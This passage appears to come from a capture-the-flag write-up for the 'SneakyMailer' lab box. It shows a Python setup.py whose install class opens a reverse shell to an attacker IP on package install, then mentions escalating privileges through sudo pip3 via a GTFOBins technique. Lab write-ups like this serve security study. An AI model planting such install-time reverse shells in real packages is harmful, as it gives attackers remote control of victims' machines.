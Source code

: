 ```python
import socket
import os
import subprocess
import setuptools
from setuptools.command.install import install

class shell(install):
	if str(os.uname()).find("parrot") == -1:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.120",54322));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

with open("README.md", "r") as fh:
    long_description = fh.read()
```

We upload our package again and we will get a shell as "low".

![](/assets/images/sneakymailer/shell2.png)

# [](#header-1)Privilege Escalation

We got user.txt, prvilege escalation is trivial, we see that we can run pip3 without supplying credentials, we search pip in [gtfobins](https://gtfobins.github.io/gtfobins/pip/#sudo) and we find a privilege escalation technique, it is for pip, but there is no difference with pip3, so we follow the steps and we are finished with the box.

![](/assets/images/sneakymailer/privesc.png)

# [](#header-1)Final Thoughts

